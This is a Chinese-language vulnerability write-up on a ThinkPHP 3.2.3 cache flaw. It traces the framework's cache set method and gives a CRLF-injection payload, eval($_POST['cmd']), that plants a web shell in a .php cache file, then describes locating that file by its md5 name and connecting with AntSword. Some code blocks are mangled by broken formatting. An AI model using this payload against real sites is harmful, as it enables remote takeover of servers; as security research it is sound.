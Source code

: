 ```yaml
---
title: "Thinkphp 3.2.3 缓存漏洞"
id: zhfly3146
---
```


# Thinkphp 3.2.3 缓存漏洞

## 一、漏洞简介

## 二、漏洞影响

Thinkphp 3.2.3

## 三、复现过程

### 漏洞分析

*   直接跟进到`/Library/Think/Cache/File.class.php`文件，看到set方法：

    ```
    /**
         * 写入缓存
         * @access public
         * @param string $name 缓存变量名
         * @param mixed $value  存储数据
         * @param int $expire  有效时间 0为永久
         * @return boolean
         */
        public function set($name,$value,$expire=null) {
            N('cache_write',1);
            if(is_null($expire)) {
                $expire =  $this->options['expire'];
            }
            $filename   =   $this->filename($name);
            $data   =   serialize($value);
            if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
                //数据压缩
                $data   =   gzcompress($data,3);
            }
            if(C('DATA_CACHE_CHECK')) {//开启数据校验
                $check  =  md5($data);
            }else {
                $check  =  '';
            }
            $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
            //data参数经过序列化，直接被写到文件内。

    ```
     $result  =   file_put_contents($filename,$data);
        if($result) {
            if($this-&gt;options['length']&gt;0) {
                // 记录缓存队列
                $this-&gt;queue($name);
            }
            clearstatcache();
            return true;
        }else {
            return false;
        }
    } 
    ``` 
    ```

*   写一个调用缓存函数的的方法，运行一下。看看写进去什么

    ```
    <?php
    namespace Home\Controller;
    use Think\Controller;
    class IndexController extends Controller {

    ```
    public function index(){
        $a=I('post.a3');
        S('name',$a);
    } 
    ``` `}` 
    ```

*   在set方法下断点，访问 `http://www.0-sec.org/index.php/Home/Index/index.html` ，post数据：`a3=aaaa`

![image](../img/f78275199bdebad36493f8c875ace51e.png)

可以看到$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在`Application/Runtime/Temp/`文件夹下生成了php文件。

![image](../img/30559eee1004e726bb6302e597e9e0d6.png)

*   写入到文件被行注释了。

*   `$data`参数未过滤`%0d%0a`可以用换行来绕过行注释，尝试post数据：

    `a3=%0d%0aeval($_POST['cmd']);%0d%0a//`

![image](../img/7586a11d31704ec10a40de8c4b88c9c5.png)

*   之后用蚁剑连接成功

![image](../img/c103aa5f4721cd7989b5b23f3b56a5fb.png)

### 总结

### Thinkphp3.2.3

1.  漏洞文件位置(一般审计得出)

    `http://www.0-sec.org/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297

    `http://www.0-sec.org/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php`

3.  之后蚁剑连接。

## 参考链接

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/)